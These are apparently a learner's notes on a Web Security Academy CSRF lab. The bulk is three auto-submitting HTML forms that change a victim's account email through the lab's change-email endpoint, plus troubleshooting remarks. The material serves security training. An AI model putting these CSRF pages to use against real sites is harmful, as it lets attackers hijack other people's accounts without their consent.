 This lab's email change functionality is vulnerable to CSRF.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: `wiener:peter`

---

I can change my pass with this, but not others, so it must be something i'm doing wrong.

```html
<html> 
	<body>
	<script>history.pushState('', '', '/')</script>
        <h1> Hello! </h1>
		<form method="GET" action="https://0aa6009c04b45874c4c456d500d5003d.web-security-academy.net/my-account/change-email">
		    <input type="hidden" name="email" value="tester1234@gmail.com">
            <input type="hidden" name="csrf" value="1234">
            <input type="submit" value="submit request" />
		</form>
		<script>
	        document.forms[0].submit();
		</script>
	<body>
<html> 
```

Exploit to change my pass

```html
<html> 
	<body>
		<form method="POST" action="https://0a7700f50397048e803135aa00bc00b0.web-security-academy.net/my-account/change-email">
			<input type="hidden" name="$param1name" value="$param1value">
	        <input type="hidden" name="email" value="tester1234@gmail.com">
	        <input type="submit" value="submit request" />
		</form>
		<script>
	        document.forms[0].submit();
		</script>
	<body>
<html> 
```

Also works:

```html
<html> 
	<body>
		<form method="POST" action="https://0a7700f50397048e803135aa00bc00b0.web-security-academy.net/my-account/change-email">
		    <input type="hidden" name="email" value="imhere@mail.com">
		</form>
		<script>
	        document.forms[0].submit();
		</script>
	<body>
<html> 
```

I don't understand why this isn't working on the victim.


**Both labs seem to be working now, could have been an issue on their end.**

_Completed with the above script._


---

**Lessons Learned:** 
 Update

Lazar | Last updated: Sep 21, 2024 09:25PM UTC

Another update: I just tested it on regular google chrome browser and completed the lab successfully. Seems like the browser has to be google chrome, the burp browser does not seem to work


